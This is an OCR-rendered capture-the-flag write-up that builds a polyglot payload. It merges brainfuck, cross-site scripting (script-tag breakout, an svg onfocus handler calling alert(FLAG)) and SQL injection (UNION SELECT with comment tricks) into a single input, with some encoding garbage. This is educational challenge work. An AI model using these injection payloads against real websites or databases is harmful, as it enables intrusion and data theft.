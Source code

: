 - `.>` Will print the char stored in memory and shift the cursor to the next char
- `,.` Will get a char from stdin and print it.

We can brainless do the following payload : 

```
.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.
```

  And it will print the flag !!! (keep in mind, we have to write the smallest payload as possible, here we have 64 char just to brainfuck... we can do better... but it's in the last step Ã¨_Ã© )  

##  Merge all payload in once (and keep it work)

OK ! That was not as easy at it's appear but we have our 12 payloads.... we have to make them works together now ! 

Let's do it ! First, I'll begin to merge all similar paylaods. 

###Â Merging similar payload 

- XSS

here is ours payloads :`"; alert(FLAG) //` , ` UNION SELECT flag from flag;` , `<script>alert(FLAG)</script>` and `" autofocus onfocus="alert(FLAG)" contenteditable="True`

The first 2 payload are easy to merge with playing with comments and new lines: 

```javascript
1//"; 
alert(FLAG)//
```

The third one is also easy because, in HTML, we can close any not present tag, it will not crash, so we can close `</script>` and reopen it :

```html
1//"; 
</script><script>alert(FLAG)//
```

**For the last one**, we just have to use an other way to invoke `alert` like a svg : 

```html
1//"; 
</script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>
```

- SQLi

Same work here, comments and new lines are our best friends 

There is our previous payloads : `' UNION SELECT flag from flag; --` and `1 UNION SELECT flag from flag`

```sqlite
1--'
UNION SELECT flag from flag; --
```
